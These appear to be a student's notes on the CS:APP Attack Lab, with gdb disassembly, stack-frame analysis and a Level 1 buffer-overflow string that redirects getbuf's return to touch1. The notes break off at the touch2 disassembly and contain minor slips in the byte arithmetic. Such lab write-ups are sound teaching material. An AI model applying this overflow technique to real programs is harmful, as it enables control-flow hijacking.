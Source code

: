 ## Prenote
https://github.com/kechenkristin/csapp/blob/main/labs/attacklab/%E8%AE%B2%E4%B9%89.pdf

### Files
```shell
kristin@kristin-PC:~/study/csapp/labs/attacklab/target1$ ls
cookie.txt  ctarget  farm.c  hex2raw  README.txt  rtarget
```

- README.txt: A file describing the contents of the directory
- ctarget: An executable program vulnerable to code-injection attacks
- rtarget: An executable program vulnerable to return-oriented-programming attacks
- cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.
- farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented programming attacks.
- hex2raw: A utility to generate attack strings.

### getbuf()
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf defined below:
```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

### 过程调用的栈帧结构
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p4.png)

## Level1
### instruction
- tips from pdf  
• All the information you need to devise your exploit string for this level can be determined by exam-ining a disassembled version of CTARGET. Use objdump -d to get this dissembled version.  
• The idea is to position a byte representation of the starting address for touch1 so that the ret instruction at the end of the code for getbuf will transfer control to touch1.  
• Be careful about byte ordering.  
• You might want to use GDB to step the program through the last few instructions of getbuf to make sure it is doing the right thing.  
• The placement of buf within the stack frame for getbuf depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.  

- 实验步骤
1. 反汇编二进制目标程序bufbomb，获得其汇编
指令代码
2. 从汇编指令中分析获得getbuf函数执行时的栈
帧结构，定位buf数组缓冲区在栈帧中的位置
3. 根据栈帧中需要改变的目标信息及其与缓冲区
的相对位置，设计攻击字符串

### codes
#### touch1
```c
void touch1() {
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
```

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
The return address of touch1 is **4017c0**


#### test
```c
void test() {
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

```asm
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx	// test调用完getbuf后正常的返回地址应该是0x0000000000401976
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	ret    
End of assembler dump.
```

```
(gdb) p (char*)0x403188  
$3 = 0x403188 "No exploit.  Getbuf returned 0x%x\n"  
```

#### getbuf
```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

```asm
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi	// Gets函数调用指令之前的一条指令的地址
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax	// Gets函数指令之后的下一条指令的地址
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret    
End of assembler dump.
```

![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p3.png)


### getbuf的栈帧结构
> sub    $0x28,%rsp  
> add    $0x28,%rsp  
十六进制的0x28也就是十进制的40Byte  
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p1.jpg)

### 设计攻击字符串(注意要小端方式)
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p2.png)

对于字节怎么在计算机里表示我不知道， 但是看向objdump的反汇编文件
> 00000000004017c0 <touch1>:  
一个地址等于八个字节，我们需要40 + 4 + 4 (touch地址）的攻击字符串

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## touch2
```asm
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
```
